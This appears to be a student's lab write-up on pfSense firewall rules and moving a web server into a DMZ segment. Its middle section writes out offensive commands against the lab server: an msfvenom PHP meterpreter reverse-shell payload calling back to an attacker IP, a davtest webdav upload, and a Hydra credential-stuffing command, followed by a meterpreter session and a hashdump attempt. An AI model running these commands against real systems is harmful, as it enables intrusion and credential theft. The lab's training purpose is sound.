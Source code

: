 # Configuring Network Segmentation and Security
<h3>Objectives</h3>

- Apply security solutions for infrastructure management
- Implement configuration changes to existing controls to improve security
#
<h3>Lab Set Up</h3>

![image](https://github.com/user-attachments/assets/daf27a39-fb8f-4890-a6ba-640a1bfe1619)

To  connect to the pfSense firewall, I just type in its IP into the browser: http://10.1.0.254
- 10.1.0.254 is this network's default gateway. Usually, the default gateway is a router, in this case, pfSense works as both a router and a firewall, and that is why it's this network's default gateway.
![image](https://github.com/user-attachments/assets/ae1d90aa-045d-49e2-b85b-98e6ca659194)
![image](https://github.com/user-attachments/assets/fe92ec5f-12df-4dd2-bf51-ef06452c75ec)
- This firewall/router is configured with one external and one internal interface. The firewall screens the local network segment from external networks, allowing only traffic matching the access control list (ACL) through.

<h3>Reviewing Firewall ACLs</h3>

I can access the ACL or rules by clicking **Firewall > Rules**
- Here I can see that there are multiple tabs, so there can be separate rules for the the WAN and LAN

![image](https://github.com/user-attachments/assets/cdcaae03-722e-41f8-bdbc-5f0c239e4243)
![image](https://github.com/user-attachments/assets/95711b78-a316-407f-827f-e24c73f9ca42)
- Several types of traffic are permitted into the LAN: ICMP (ping), DNS, HTTP/HTTPS, and SMTP.
- All except the ICMP rule, are forwarding rules meaning that traffic for those ports is directed to a host on the LAN.

Now on the **LAN tab**
![image](https://github.com/user-attachments/assets/4bc00873-6876-4173-a484-fb810bc2e080)
- Based on these rules, there is no egress filtering. Any type of traffic from a host on the LAN is permitted to any endpoint, **unless** a deny rule is placed higher in the ACL.
  - The order of the rules can be changed around since  the firewall prioritizes the rules from top to bottom, it will change how the firewall behaves with certain traffic.
- The **Anti-Lockout Rule** prevents the firewall from locking out an administrator from the web interface.
It's enabled by default and allows traffic from any source within the network to any firewall administration protocol listening on the LAN IP address.

If I now click on **Firewall > NAT**, it shows the hosts that are designated to receive traffic for DNS, HTTP/HTTPS, and SMTP.

![image](https://github.com/user-attachments/assets/be50cdea-d36b-40f9-9f6f-24db262ef564)
![image](https://github.com/user-attachments/assets/d9d7c69c-035e-4fb4-858b-951b4605f90b)
- These rules however create a vulnerability, 

#
<h3>Testing Host Security</h3>

In order to demonstrate how a server may make other hosts on the same segment vulnerable, I will run an attack against the web server.

On a Kali VM, which I'll be using as the attack box (AB), I'll start msfconsole and run the following commands: 

1: msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.2.192 lport=8080 -f raw > /root/get.php
- Creates a reverse shell via PHP code
![image](https://github.com/user-attachments/assets/844f1c13-d830-4f2e-aa5c-0df1d04a3e03)

2: davtest -url http://www.515support.com/webdav
- I'll leverage the server’s webdav environment to upload malicious code
![image](https://github.com/user-attachments/assets/4e550bbe-86db-4537-b21d-61571f1a6d22)

This environment is password-protected so it failed to connect, however, I'll use the password cracker THC Hydra or Hydra and a wordlist containing possible usernames and password variations, and perform a credential-stuffing attack. 

Command: hydra -L /root/Downloads/users-515support.txt -P /root/Downloads/pwd-515support.txt www.515support.com http-get /webdav

![image](https://github.com/user-attachments/assets/9c1676b0-ecc5-4e98-906d-65d3f4719636)
- Hydra was able to crack the user/password combo of dev:Pa$$w0rd

Now I can try connecting again using these credentials
![image](https://github.com/user-attachments/assets/bc809845-89f7-4d4f-aa30-1463449c51fe)

Now that I'm connected I can start the listener

![image](https://github.com/user-attachments/assets/650491ad-54a3-4c62-82df-f7b303848371)

On a second terminal window, I'll run the following command to trigger the script and start the reverse shell
![image](https://github.com/user-attachments/assets/cb510199-1bdb-4420-a7b0-c091133b3d16)

Back on the terminal running msfconsole, the meterpreter shell was successful, and I now  have access to the server's command line.
![image](https://github.com/user-attachments/assets/2f47d67f-5dea-4131-b89a-b1c4909f184f)

Leaving the session in the background to try creating a hash dump, results in failure because I dont have root access.
![image](https://github.com/user-attachments/assets/bf494440-2074-445a-a097-4a89287538b6)

Trying a different method also yields no access, however, there is the potential for intrusion against other hosts on the network.
![image](https://github.com/user-attachments/assets/89437583-ba17-4b1d-a3e8-df2f3cf1f37f)
![image](https://github.com/user-attachments/assets/2f825b5b-1164-43e3-8993-94854a90d798)
![image](https://github.com/user-attachments/assets/101102bf-7b08-4b58-9b74-82efc916252b)
![image](https://github.com/user-attachments/assets/ca6b314e-88d6-4a1f-aa36-0f7a02e2d551)

The reason there it's possible to gain access to another host on the network is because of the firewall rules. If firewall rules were filtering connections between this server and other hosts, 
and blocking unauthorized outbound connections, then this would not be possible.
#
<h3>Configuring Segmentation</h3>

Now I will configure the firewall so that the web server is isolated in a demilitarized zone (DMZ) segment, separate from other hosts.

In Hyper-V Manager, Virtual Switch Manager > Private > Create Virtual Switch and name the switch 'vDMZ'
![image](https://github.com/user-attachments/assets/a1add197-8bb8-4f8e-ad3c-23bcfca3e541)

Now in the settings menu for UTM1, I'll set the vDMZ switch for the hn2 adapter

![image](https://github.com/user-attachments/assets/42798972-644d-4d35-88bd-a82e55b927a2)
![image](https://github.com/user-attachments/assets/58165c35-a154-4592-b473-bd97cb7a873b)

And I'll do the same for LX1, on the eth0 adapter

![image](https://github.com/user-attachments/assets/9c084d65-9284-4079-93d0-a980177c841c)

Back on pfSense, Clicking on **Interfaces > Assignments**
![image](https://github.com/user-attachments/assets/edda3a98-8f04-4080-8122-a25dbbb2bcfd)
And I added OPT1, which is UTM1's interface connected to the virtual switch (vDMZ)
![image](https://github.com/user-attachments/assets/b95b2700-816d-4e64-b19c-9de6bdeab33d)

Clicking on **Interfaces > OPT1**, I enabled the interface and set the IPv4 address as 10.1.254.254 /24 and to be static, then saved the configuration at the bottom of the menu

![image](https://github.com/user-attachments/assets/b0d2478e-d4d2-47f2-8fa0-b935ff3d8794)
![image](https://github.com/user-attachments/assets/83159cc6-a7b6-4dae-bc46-dd2506a4015c)

Clicking on **Firewall > NAT**, I'm going to edit the HTTP forwarding rule

![image](https://github.com/user-attachments/assets/f0c07ae9-a6b1-48f0-9eb4-e56e9e42e891)
![image](https://github.com/user-attachments/assets/18d0975c-f95c-4ed4-962a-60d3902b7041)


